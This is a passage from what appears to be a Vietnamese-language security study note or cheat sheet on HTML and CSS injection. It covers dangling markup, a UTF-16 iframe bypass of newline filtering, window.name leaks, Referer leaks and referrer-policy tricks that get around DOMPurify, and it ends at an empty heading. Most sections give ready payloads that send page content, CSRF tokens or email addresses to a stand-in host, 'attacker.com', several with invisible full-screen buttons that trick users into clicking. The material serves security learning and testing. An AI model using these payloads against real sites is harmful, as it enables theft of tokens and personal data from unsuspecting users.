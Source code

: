 # HTML Injection 
## Dangling Markup 
- **Dangling Markup** xảy ra khi website chèn nội dung do người dùng cung cấp vào trong một thuộc tính HTML nhưng quên đóng dấu nháy hoặc thẻ.

=>  **Kết quả:** trình duyệt tiếp tục đọc phần HTML phía sau như là một phần của giá trị thuộc tính đó.
- Payload `<img src='//attacker-website.com?`
- HTMLSource trở thành 
```html
<img src='https://attacker.com?</div>
<input type="hidden" name="csrf" value="1337">
</form>
<p>I'm hacked? Oh no!</p>
```
=> Kết quả là trình duyệt sẽ gửi một request hình ảnh tới URL sau (đã được mã hóa URL) : `https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI
`

=> Lấy được **CSRF**

- Tuy nhiên đối với Chromium nõ sẽ loại bỏ các url có kí tự xuống dòng (newline) ngược lại firefox thì không bỏ 
- Biện pháp 
    - dùng `<textarea>` vì nó chỉ bị đóng bới `</textarea>` hoặc **cuối tài liệu** 
    - Tạo 1 nút lớn để người dùng nhập vào và sẽ leak được data
- Payload
```html ==
<form action="https://attacker.com">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
<p>Your email: victim@example.com</p>
```
- Tuy nhiên với Chromium thì ngược lại 
    - ![alt text](image.png)
### Bypass newline detection
- Vậy làm sao để bypass được việc loại bỏ newline???
#### UTF-16 iframe/stylesheet content
- Nếu `<iframe>` được phép ghép với `src=data:` ta có thể  bypass nhờ `charset UTF-16` 

```html
Encoded prefix
<style>*{background-image: url(https://attacker.com?
```
[Encode as UTF-16](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')URL_Encode(true)&input=PHN0eWxlPip7YmFja2dyb3VuZC1pbWFnZTogdXJsKGh0dHBzOi8vYXR0YWNrZXIuY29tPw) 

▼
```html
Payload
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
```
▼

```html 
HTML Source
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
- Nội dung bên trong của `iframe` sau khi `inject`
- ![alt text](image-1.png)

#### Iframe name attribute
- Có cách khác nữa 
- Khi bạn có thể tạo `iframe` mà nguồn source là remote ; thuộc tính `name` của iframe có thể rò rỉ và được atk đọc thông wa `window.name` 
```html
Html Source
<iframe src="https://attacker.com" name='
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
▼
Ở phía console của atker 
```html
> window.name
'\n<p>Your email: victim@example.com</p>\n<footer>That'

```
=> `window.name` có thể chứa xuống dòng ngay cả trên Chromium, vì nó không phải **URL** hay **target**.
- Nếu CSP không cho phép bất kì nguồn nào bên ngoài và ta có thể nhúng `Iframe` => Chiếm luôn wuyền `Iframe` 

```html
HtmlSource
<object data="about:blank" name='
<!-- payload chứa dữ liệu nhạy cảm ở đây -->
```
```html
HtmlSource
<iframe id="iframe" src="https://target.tld/dangling-object"></iframe>
<script>
  iframe.onload = () => {
    const object = iframe.contentWindow[0];
    object.location = "about:blank";  // Navigate to our same-origin

    const interval = setInterval(() => {
      object.origin;  // When it becomes same-origin
      clearInterval(interval);
      alert(object.name);  // Leak its name (kept after navigation)
    })
  }
</script>
```
- Cách khác kết hợp `<base>`  với `target` 
- Khi `base@target` bị `clobber`, mọi link trên trang (kể cả link do attacker chèn) khi người dùng click sẽ được mở với `window.name` = giá trị của `base@target` 
```html
<!-- che phủ toàn màn hình để dụ click -->
<a href="https://attacker.com/leak" style="position:fixed;top:0;left:0;width:100%;height:100%"></a>

<!-- chèn base target chứa newline / payload -->
<base target='
```

### Leak via Referer
- Chúng ta sẽ thực hiện leak với `textarea` ngay cả khi CSP không cho host bên ngoài 
- Cái này chỉ có thể thực hiện trên `Chromium` và yêu cầu có 1 `</textarea>` ngay sau 
- Inject đoạn đầu tiên : 
    - `<img src="https://attacker.com" referrerpolicy="unsafe-url">` 
- Đoạn thứ 2 
```html
<form action="/referer-leak" method="GET">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
................
................
Đoạn nay của nạn nhân 
................
................
</textarea>
```
- `action=` trỏ tới nơi chứa injection referer thứ hai
- Khi user click (thậm chí vô ý do button phủ full-screen), form submit và nội dung `<textarea>` bị đưa vào `?leak=`
- Tuy nhiên nếu không có chỗ lưu `Referer leak` . Ta cần phải dùng Payload khác 
```html
<form action="" method="GET">
<input type="hidden" name="html" value="<img src=https://attacker.com referrerpolicy=unsafe-url>">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
................
................
Đoạn nay của nạn nhân 
................
................
</textarea>
```
- Url sẽ load như sau `https://target.com/vulnerable?html=%3Cimg+src%3Dhttps%3A%2F%2Fattacker.com+referrerpolicy%3Dunsafe-url%3E&leak=%3Cp%3EYour+email%3A+victim%40example.com%3C%2Fp%3E%0D%0A%3Cdiv+class%3D%22write-note%22%3E%0D%0A++%3Ctextarea%3E`

## CSS Injection
### Redirect 
- Dùng `<meta>` (thẻ không bị chặn bới CSP) để chuyển hướng `user`
```html
<meta http-equiv="refresh" content="0; url=https://example.com">
```
### Referer
- Thay đổi chính sách referrer `<meta name="referrer" content="unsafe-url">`
```html
Redirecting response

HTTP/1.1 200 OK
Content-Security-Policy: default-src 'none'
Content-Type: text/html

<meta name="referrer" content="unsafe-url">
<meta http-equiv="Refresh" content="0,url=https://example.com">

```
- Điều thú vị là thẻ `<meta>` áp dụng cho toàn bộ trang, thậm chí khi sử dụng `DOMParser.parseFromString()` 
- Điều đó có nghĩa là các bộ lọc  `sanitizer` phía `client` dùng hàm `parse` này có thể vô tình áp dụng chính sách `referrer` trước khi nội dung được `saniti` hóa!
- Điều này tạo ra một cách rất đơn giản để làm rò rỉ URL hiện tại bằng DOMPurify: 
```html
<meta name="referrer" content="unsafe-url">
<!-- Dù thẻ meta trên có thể bị DOMPurify saniti hóa đi,
    nó vẫn có thể đã áp dụng chính sách referrer khi parsing,
    khiến tag ảnh còn lại gửi toàn bộ URL tới attacker -->
<img src="https://attacker.com">

```

#### Attribute Injection 
- Các phần tử riêng lẻ cũng có thể bị thay đổi bằng thuộc tính r`eferrerpolicy=` 
```html
<img src="http://attacker.com" referrerpolicy="unsafe-url">
```
- Thẻ `<meta>` và cách dùng `referrerpolicy=` không hoạt động trên Firefox
- Nếu CSP chặn kết nối từ site nạn nhân đến server của attacker, bạn có thể lợi dụng `<iframe>` với `srcdoc=` hoặc `src=data:`.  
    - tự thực hiện request,
    - đọc được `document.referrer`
```html
<!-- Nếu bạn inject được iframe này thì đã cùng origin với parent rồi -->
<iframe srcdoc="<script>alert(document.referrer)</script>" referrerpolicy="unsafe-url"></iframe>

<!-- Dù data: thường có origin là 'null', nó vẫn có thể đọc referrer -->
<iframe src="data:text/html,<script>alert(document.referrer)</script>" referrerpolicy="unsafe-url"></iframe>

```
#### Link response header with preload (Chrome < 136)



